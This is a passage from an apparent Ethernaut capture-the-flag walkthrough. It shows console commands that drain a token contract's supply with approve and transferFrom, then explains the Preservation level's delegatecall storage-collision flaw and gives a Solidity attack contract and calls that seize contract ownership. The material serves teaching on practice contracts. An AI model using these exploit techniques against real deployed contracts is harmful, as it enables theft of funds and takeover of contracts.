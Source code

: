 ```jsx
> x = await contract.INITIAL_SUPPLY()

> x.toString()
< '1000000000000000000000000'

> await contract.approve("0x136801a295932bEcE62ef615bEFC3DE0259D565F", 
< '1000000000000000000000000')

> await contract.transferFrom("0x136801a295932bEcE62ef615bEFC3DE0259D565F",
< "0xB70B5095274a6255890624e026a9C0e5c950f7C3", '1000000000000000000000000')
```

# 16. Preservation

Another level based on delegate calls. Using the context retaining behaviour of delegate calls, we can set the value of **timeZone1Library** variable to address of our attack contract through the **storedTime** variable of the **LibraryContract**. Using our attack contract we just have to modify the value of the 3rd memory slot.

Deploy the below attack contract on the Rinkeby testnet. 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

// import "./Preservation.sol";

contract Test {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;

    constructor() public {
        timeZone1Library = 0x21fbaeE432a4C99837c086A10b525344FB80331B;
        timeZone2Library = 0x21fbaeE432a4C99837c086A10b525344FB80331B;
    }

    function setTime(uint256 _time) public {
        owner = 0x136801a295932bEcE62ef615bEFC3DE0259D565F;
    }
}
```

Calling the `setSecondTime()` with the deployed contract address will set the value of **timeZone1Library** to the required address.

```jsx
> await contract.setSecondTime("0xd9145CCE52D386f254917e481eB44e9943F39138")

> await contract.setFirstTime(12)

> await contract.owner()
< '0x136801a295932bEcE62ef615bEFC3DE0259D565F'
```
